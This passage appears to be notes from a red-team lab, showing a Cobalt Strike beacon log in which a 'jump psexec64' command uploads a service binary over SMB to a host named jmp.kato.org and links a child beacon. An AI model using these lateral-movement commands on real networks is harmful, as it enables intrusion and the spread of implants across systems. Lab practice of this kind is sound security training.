 from WEB as `lmonk` jump
```powershell
[02/18 00:22:06] beacon> jump psexec64 jmp.kato.org smb
[02/18 00:22:07] [*] Tasked beacon to run windows/beacon_bind_pipe (\\.\pipe\Microsoft-bugsinthere1337) on jmp.kato.org via Service Control Manager (\\jmp.kato.org\ADMIN$\f4c6d74.exe)
[02/18 00:22:07] [+] host called home, sent: 354648 bytes
[02/18 00:23:01] [+] received output:
Started service f4c6d74 on jmp.kato.org
[02/18 00:23:01] [+] established link to child beacon: 10.10.140.20
```
![[Pasted image 20240217192349.png]]
